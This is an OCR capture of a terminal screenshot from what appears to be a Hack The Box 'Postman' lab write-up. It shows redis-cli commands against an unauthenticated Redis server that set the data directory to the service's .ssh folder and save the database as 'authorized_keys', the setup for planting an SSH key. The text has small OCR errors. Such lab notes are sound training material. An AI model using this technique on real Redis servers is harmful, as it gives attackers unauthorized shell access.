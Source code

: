 ![](Maszyny/Linux/Postman/Pasted%20image%2020210829022902.png)

-(kali kali)-[w/htb/postman]
redis-cli -h 10.10.10.160
10.10.10.160:6379> config set dir /var/run/redis/.ssh
(error) ERR Changing directory: No such file or directory
10.10.10.160:6379> config set' dir /var/run/redis/.ssh
(error) ERR Changing directory: No such file or directory
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis"
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379>
OK
